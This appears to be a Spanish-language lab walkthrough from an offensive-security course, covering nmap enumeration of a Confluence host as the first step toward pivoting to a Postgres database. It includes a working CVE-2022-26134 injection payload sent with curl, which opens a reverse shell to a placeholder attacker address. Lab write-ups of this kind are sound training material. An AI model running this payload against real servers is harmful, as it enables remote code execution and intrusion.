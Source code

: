 # Walk: Port Redirection and SSH Tunneling - Port Forwarding with Socat - VM Group

## Fecha: 18/03/2025
## Host: CONFLUENCE01/PSDATABASE01
## IP: 192.168.xxx.63 (Confluence) - 10.4.XXX.215 (Postgres)
## Objetivo
Follow the steps in this section to set up a port forward and gain access to the _confluence_ database on PGDATABASE01 using **psql** from your Kali machine. Crack the password of the _database_admin_ user. What is the plain text password of this account?
## Herramientas
1. socat
2. nc
3. hashcat
## Procedimiento y comandos
#### Paso 1: Enumeracion
1. Enumeramos con nmap el host ruteable que servira como _**pivote**_
```
nmap -sV --open 192.168.247.63 -oN 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 16:47 -03
Nmap scan report for 192.168.247.63
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8090/tcp open  http    Apache Tomcat (language: en)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.63 seconds
```
2. Vemos el puerto 8090 donde se ejecuta _**Confluence**_ 
Nos dirgimos a la ip del host con el puerto abierto en el navegador parra obtener mas informacion sobre el servicio:
```
192.168.247.63:8090/
```
- [Confluence 7.13.6](http://www.atlassian.com/software/confluence) 
Con una version 7.13.6 podemos buscar alguna POC que concuerde con nuestro escenario para obtener un reverse shell.
#### Paso 2: Obtenemos un reverse shell
1. Luego de una busqueda encontramos en este [link](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) un payload que podemos modificar y utilizar:
```
curl -v http://CONCLUENCE_IP:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/IP_ATACANTE/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
